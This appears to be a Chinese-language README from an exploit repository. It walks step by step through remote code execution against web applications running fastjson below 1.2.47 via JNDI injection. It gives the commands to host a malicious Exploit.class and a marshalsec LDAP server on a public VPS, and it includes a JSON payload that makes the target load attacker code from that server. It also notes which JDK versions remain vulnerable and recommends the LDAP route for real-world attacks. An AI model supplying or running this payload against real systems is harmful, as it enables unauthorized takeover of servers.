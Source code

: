## 使用方法：

1. 编译Exploit.java文件

   > 可根据需求修改其中的执行命令

   ```java
   javac Exploit.java
   ```

2. 将编译后的Exploit.class放到公网vps（能够使用http去访问到）

3. 将`marshalsec-0.0.3-SNAPSHOT-all.jar`放到公网vps上，注意公网vps需配置和java环境

   执行如下命令启用ldap服务：

   ```java
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://公网vpsHTTP的IP:端口/#Exploit” 9999
   ```

4. 在目标网站上执行如下EXP即可出发Exploit.class中的命令

   ```json
   
   {
       "a": {
           "@type": "java.lang.Class", 
           "val": "com.sun.rowset.JdbcRowSetImpl"
       }, 
       "b": {
           "@type": "com.sun.rowset.JdbcRowSetImpl", 
           "dataSourceName": "ldap://公网vps的ip:9999/Exploit", 
           "autoCommit": true
       }
   }
   ```




## 注意事项：

fastjson版本需低于1.2.47

目标网站的jdk版本不能过高，高版本的java对jndi注入进行了限制，具体要求如下：

基于rmi的利用方式：适用jdk版本：JDK 6u132, JDK 7u131, JDK 8u121之前。 在jdk8u122的时候，加入了反序列化白名单的机制，关闭了rmi远程加载代码。 基于ldap的利用方式：适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。 在Java 8u191更新中，Oracle对LDAP向量设置了相同的限制，并发布了CVE-2018-3149，关闭了JNDI远程类加载。 可以看到ldap的利用范围是比rmi要大的，实战情况下推荐使用ldap方法进行利用。



## 演示视频：

https://www.bilibili.com/video/BV1La4y147fj

